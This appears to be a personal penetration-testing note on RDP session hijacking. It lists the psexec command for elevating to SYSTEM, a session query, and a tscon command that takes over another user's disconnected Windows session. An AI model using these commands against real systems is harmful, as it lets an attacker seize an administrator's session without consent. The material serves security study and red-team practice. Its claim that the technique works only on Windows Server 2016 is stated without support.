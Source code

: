 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#psexec #tscon
# RDP Session Hijacking
- If an administrator uses RDP to log in to a machine and Instead of logging off the session, closes the RDP session, the session remains open on the server indefinately.
- If we have Administrative rights on a machine, we can reopen the session.
- Only works on Windows Server 2016
- We need to elevate from `Administrator` to `SYSTEM`.
```powershell
# First elevate to SYSTEM
psexec64.exe -s cmd.exe

# List the current rdp sessions
query user
# A Session with "Disc" state means that is left open by someone and currently not being used.

# Connect to active session using tscon
# tscon <id_to_connect_to> /dest:<current_session_name>
tscon 2 /dest:rdp-tcp#6
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
